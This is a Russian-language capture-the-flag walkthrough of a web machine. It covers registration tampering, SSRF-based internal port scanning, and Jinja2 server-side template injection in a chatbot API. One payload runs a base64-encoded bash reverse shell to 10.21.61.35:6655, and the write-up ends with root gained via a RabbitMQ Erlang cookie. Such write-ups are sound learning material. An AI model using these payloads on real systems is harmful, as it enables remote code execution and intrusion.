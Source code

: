 


![](../attachment/Pasted%20image%2020250408110553.png)
для доступа к сайту добавим target ip и domain в /etc/hosts
Исследуя сайт находим поддомен storage, который добавляем в etc/hosts
Создаем пользователя и видим уведомление
![](../attachment/Pasted%20image%2020250408111449.png)

при регистрации был создан jwt token

![](../attachment/Pasted%20image%2020250408112245.png)

Возвращаемся к созданию учетную записи и добавляем строку  "subscription":"active"


![](../attachment/Pasted%20image%2020250408112846.png)
![](../attachment/Pasted%20image%2020250408112854.png)

После входа под новым пользователем мы получаем доступ  к загрузке файлов
![](../attachment/Pasted%20image%2020250408112938.png)
Попробуем загрузить png и проверить наличие уязвимости при загрузке файла (отсутствует)
![](../attachment/Pasted%20image%2020250408113153.png)

Сайт обращался к api (logout,register,uploads....) - проверим какие есть еще
![](../attachment/Pasted%20image%2020250408113727.png)

Доступа к api/docs запрещен 

На главной странице также есть загрузка через url
![](../attachment/Pasted%20image%2020250408113834.png)![](../attachment/Pasted%20image%2020250408113921.png)
![](../attachment/Pasted%20image%2020250408115952.png)
при просмотре файла ничего не найдено. Скорее всего есть другой порт, выполним поиск с помощью burp где будем менять значения порта от 80-N (первый поиск до 8390)
![](../attachment/Pasted%20image%2020250408120057.png)

После поиска сортируем по длине ответа и порт 3000 имеет наибольшею длину после 80 порта
Загружаем на сайт url http://127.0.0.1:3000/api/docs и получает путь к файлу в котором содержатся эндпоинты
![](../attachment/Pasted%20image%2020250408120409.png)

отправим POST запрос на api chatbot
![](../attachment/Pasted%20image%2020250408122019.png)![](../attachment/Pasted%20image%2020250408122049.png)
Проверим наличие SSTI
![](../attachment/Pasted%20image%2020250408122108.png)
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} ([Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/))
![](../attachment/Pasted%20image%2020250408125048.png)
генерируем с помощью revshell нагрузку bash и кодируем в base64 
```
"{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIxLjYxLjM1LzY2NTUgMD4mMQ==|base64 -d|bash').read()}}"
```

подключаемся и забираем первый флаг
![](../attachment/Pasted%20image%2020250408181414.png)

При сканирование машины был сервис rabbit. Проверим домашнюю директорию пользователя rabbitmq (создается автоматически при установки rabbit)
![](../attachment/Pasted%20image%2020250408181542.png)
Получив куки erlang можно подключиться и экспортировать метаданные(definitions) 
Находим в них хеш root и декодируем 
![](../attachment/Pasted%20image%2020250408181718.png)

![](../attachment/Pasted%20image%2020250408182056.png)

Забираем флаг root
![](../attachment/Pasted%20image%2020250408182217.png)